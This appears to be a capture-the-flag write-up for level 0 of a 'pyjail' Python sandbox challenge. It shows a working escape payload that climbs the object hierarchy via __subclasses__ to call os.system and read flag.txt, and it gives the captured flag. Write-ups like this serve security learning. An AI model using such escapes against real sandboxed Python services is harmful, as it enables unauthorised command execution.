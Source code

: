 Title: level0

Description:
```
Solve the 1st level of the pyjail series.

Note: The server is running on Ubuntu 20.04

Author: Claire de lune
```

Need to start instance.

![image](https://user-images.githubusercontent.com/63996033/206859943-2b289e68-34ed-41ca-9aec-69e76233b80a.png)

Choosing option 2 closes the program. Choosing option 1 allows us to run python code.

![image](https://user-images.githubusercontent.com/63996033/206859991-6563273e-2c69-4397-912c-4b994cce36ee.png)

I referred to a [previous challenge](https://github.com/Coder-Here/HACK-AC-2022-CTF/tree/main/Misc/Cult%20of%20Vim) I did in another competition that allowed me to craft a payload to run shell code.

```
print([].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt'))
```

Can use the payload to first list the files in the current directory and then cat out the file. This payload works for the other 2 challenges similarly.


![image](https://user-images.githubusercontent.com/63996033/206860113-ec9abc89-b551-4470-8b8e-6850cc0e84a7.png)

Flag: shakti{7h47_w45_7Un!3a36rgjsk9}
